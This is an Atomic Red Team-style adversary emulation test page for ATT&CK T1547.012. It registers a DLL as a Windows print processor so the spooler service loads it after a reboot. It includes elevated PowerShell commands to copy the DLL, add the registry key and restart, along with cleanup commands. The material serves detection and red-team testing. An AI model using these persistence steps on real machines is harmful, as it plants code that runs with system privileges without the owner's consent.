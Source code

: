 ```yaml
---
tags: [T1547_012, atomic_test]
filename: "[[T1547.012|T1547.012 - Boot or Logon Autostart Execution: Print Processors]]"
---
```

# T1547.012 - Boot or Logon Autostart Execution: Print Processors

## Atomic Test #1 - Print Processors
Establishes persistence by creating a new print processor registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors.
The new print processor will point to a DLL which will be loaded by the spooler service after a reboot. The DLL will then create the file AtomicTest.txt in C:\Users\Public\ as validation that the test is successful.

Note: The test assumes a x64 Windows operating system.

The payload source code is based on a blog post by stmxcsr: [https://stmxcsr.com/persistence/print-processor.html](https://stmxcsr.com/persistence/print-processor.html)

**Supported Platforms:** Windows


**auto_generated_guid:** f7d38f47-c61b-47cc-a59d-fc0368f47ed0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| restart | set to 1 if you want the computer to reboot as part of the test | integer | 0|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
if( $(get-service -Name spooler).StartType -eq "Disabled") {Set-Service -Name "spooler" -StartupType Automatic}
net stop spooler
Copy-Item "$PathToAtomicsFolder\T1547.012\bin\AtomicTest.dll" C:\Windows\System32\spool\prtprocs\x64\AtomicTest.dll
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors\AtomicRedTeam" /v "Driver" /d "AtomicTest.dll" /t REG_SZ /f
net start spooler
if(#{restart}){
  Restart-Computer
}
```

#### Cleanup Commands:
```powershell
net stop spooler
rm -force C:\Windows\System32\spool\prtprocs\x64\AtomicTest.dll -ErrorAction SilentlyContinue
rm -force C:\Users\Public\AtomicTest.txt -ErrorAction SilentlyContinue
remove-item "HKLM:\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors\AtomicRedTeam" -Force -ErrorAction SilentlyContinue
net start spooler
```





<br/>
